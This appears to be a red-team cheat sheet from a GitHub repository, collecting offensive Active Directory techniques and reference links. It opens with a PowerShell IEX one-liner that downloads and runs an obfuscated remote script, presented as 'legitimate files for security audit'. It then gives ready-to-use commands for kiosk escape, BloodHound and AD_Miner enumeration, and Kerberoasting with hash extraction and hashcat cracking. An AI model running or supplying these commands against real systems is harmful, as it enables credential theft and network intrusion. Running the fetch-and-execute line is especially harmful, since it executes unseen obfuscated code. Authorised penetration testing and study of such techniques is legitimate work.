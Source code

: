 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

Global Ressources
---
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

Kiosk evasion : file access from browser or openfile dialogbox
---
```
file://c:/windows/system32/calc.exe
```

Recent user activity
---
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

Url file attack
---
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

NTLM
---
- https://www.scip.ch/en/?labs.20210909

KALI : Files Transfert
---
```
python -m http.server
```

- https://haveibeenpwned.com/
- https://breachdirectory.org/

SYSVOL access without serveur name
---
```
\\mon-domaine.fr\sysvol
```
Searching Password in GPO with explorer
---

![image](https://github.com/TikTakTech/Salsa/assets/114105972/45e450e0-3a09-4da1-89d0-24db9bc8adb7)

BloodHound
---
```
bloodhound-python -d domain -u username@domain -p password -c all -ns domain_controller_ip -v
sudo apt install bloodhound
sudo neo4j console
http://localhost:7474/
(neo4j/neo4j)
bloodhound
```
https://medium.com/@leviathan36/active-directory-testing-with-bloodhound-a33b88622d2f

ADMiner
---
```
pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
reopen shell ;-)
AD-miner -c -cf My_Report -u neo4j -p mypassword
```
https://github.com/Mazars-Tech/AD_Miner

Kerberoasting
---
```
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher -Format Hashcat
Invoke-Kerberoast | fl
Invoke-Kerberoast -OutputFormat Hashcat | % { $_.Hash } | Out-File hashes.txt -Encoding ASCII
hashcat -m 13100 --force -a 0 /home/kali/Downloads/hashes.txt /home/kali/Downloads/rockyou.txt
```
- https://atomicredteam.io/credential-access/T1558.003/
- https://github.com/cyberark/RiskySPN
- https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
- https://www.youtube.com/watch?v=ycNadGeq03E
- https://raw.githubusercontent.com/EmpireProject/Empire/08cbd274bef78243d7a8ed6443b8364acd1fc48b/data/module_source/credentials/Invoke-Kerberoast.ps1
  
MEMCM - MDT - PXE
---

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad

<br/><br/>
